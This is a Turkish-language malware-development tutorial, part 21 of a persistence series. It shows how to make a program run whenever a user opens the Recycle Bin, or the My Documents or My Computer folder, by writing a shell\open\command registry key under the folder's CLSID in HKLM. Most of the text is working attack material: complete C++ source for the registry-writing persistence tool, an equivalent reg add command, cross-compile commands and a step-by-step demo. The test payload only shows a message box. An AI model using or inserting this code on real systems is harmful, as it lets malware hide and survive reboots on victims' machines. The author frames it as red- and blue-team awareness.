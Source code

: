\newpage
\subsection{87. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 21. Geri Dönüşüm Kutusu, Belgelerim COM uzantı yöneticisi. Basit C++ örneği.}

﷽

![pers](./images/85/2023-01-20_00-28.png){width="80%"}    

Bu gönderi, kötü amaçlı yazılımlarda kalıcılık sağlamak için kullanılabilecek en ilginç yöntemlerden biri olan **Geri Dönüşüm Kutusu COM uzantı yöneticisinin değiştirilmesi** yöntemine dayanmaktadır.    

### CLSID listesi

Işletim sistemindeki belirli özel klasörler benzersiz dizelerle tanımlanır:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - Bilgisayarım     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - Belgelerim     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - Ağ Bağlantılarım     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Ağ Bilgisayarları     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Yazıcılar ve Fakslar      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Geri Dönüşüm Kutusu       

`open\command` alt anahtarını CLSID'ye eklemek ve `shell` anahtarına yeni bir komut eklemek, `\command` girişinde depolanan değeri çalıştırır.      

### pratik örnek

Haydi pratik bir örneğe bakalım. Öncelikle, her zamanki gibi, "kötü" uygulamamızı oluşturalım. Basitlik açısından, yine `meow-meow` mesaj kutusu uygulamasını kullanıyoruz (`hack.cpp`):  

```cpp
/*
hack.cpp
windows kalıcılık için kötü uygulama
yazar: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Ardından, kalıcılık sağlayan betiği oluşturalım (`pers.cpp`):      

```cpp
/*
pers.cpp
Geri Dönüşüm Kutusu COM uzantı yöneticisi ile
Windows kalıcılığı

yazar: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // kötü amaçlı uygulama
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // anahtar
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // kayıt defteri anahtar değerini güncelle
      // reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command"
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

Görebildiğiniz gibi, mantık oldukça basit.    

### demo

Haydi her şeyi adım adım inceleyelim. Öncelikle, Kayıt Defteri'ni kontrol edelim:      

```powershell
reg query 
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" 
/s
```

![pers](./images/85/2023-01-19_23-39.png){width="80%"}    

Ardından, sıldırgan makinesinde (`kali`) "kötü amaçlı yazılımımızı" derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-16.png){width="80%"}    

Ve doğruluğunu kontrol etmek için `hack.exe`'yi hedef makinede (örneğin benim durumumda `Windows 10 x64`) çalıştıralım:    

```powershell
.\hack.exe
```

![pers](./images/85/2023-01-19_23-49.png){width="80%"}    

Gördüğünüz gibi, "kötü amaçlı yazılımımız" sorunsuz çalışıyor.    

Sonraki adımda, sıldırgan makinesinde kalıcılık betiğini derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-35.png){width="80%"}    

Son olarak, bu kalıcılık betiğini hedef makinede çalıştıralım ve Kayıt Defteri'ni tekrar kontrol edelim:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](./images/85/2023-01-20_00-19.png){width="80%"}    

Gördüğünüz gibi, alt anahtar eklendi ve anahtar değeri ayarlandı.    

Ardından, Geri Dönüşüm Kutusu'nu açmayı deneyelim:    

![pers](./images/85/2023-01-20_00-25.png){width="80%"}    

![pers](./images/85/2023-01-20_00-25_1.png){width="80%"}    

Eğer `ProcessExplorer`'i açar ve `hack.exe` özelliklerini incelersek:     

![pers](./images/85/2023-01-20_06-59.png){width="80%"}    

Ana sürecin `explorer.exe (1680)` olduğunu fark edebiliriz.     

Mükemmel! =^..^=

### listedeki başka bir CLSID ne olacak?    

Kalıcılık betiğinde küçük bir değişiklik yaptım:      

```cpp
/*
pers.cpp
Geri Dönüşüm Kutusu COM uzantı yöneticisi ile
Windows kalıcılığı

yazar: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell";

  // kötü amaçlı uygulama
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // anahtar
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // kayıt defteri anahtar değerini güncelle
      // reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command"
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Derleyin ve hedef makinede çalıştırın:      

```powershell
.\pers.exe
reg query 
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](./images/85/2023-01-20_07-09.png){width="80%"}    

Ancak... Windows 10'da benim için çalışmıyor, çünkü bu aptal Başlat menüsünü kullanıyorlar, Masaüstü özelliğinde `Belgelerim` klasörünü bulamıyorum.    

Ayrıca, bu yöntemi `Windows 7 x86` makinesinde başka bir CLSID ile denemeye çalıştım. `Bilgisayarım` klasörü için çalıştı.     

![pers](./images/85/2023-01-20_07-22.png){width="80%"}    

![pers](./images/85/2023-01-20_07-35.png){width="80%"}    

Bu yöntemi herhangi bir APT grubunun veya kötü amaçlı yazılım ailesinin kullanıp kullanmadığını bilmiyorum.     

Umarım bu gönderi, mavi takım üyelerinin bu teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah ekler.    

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
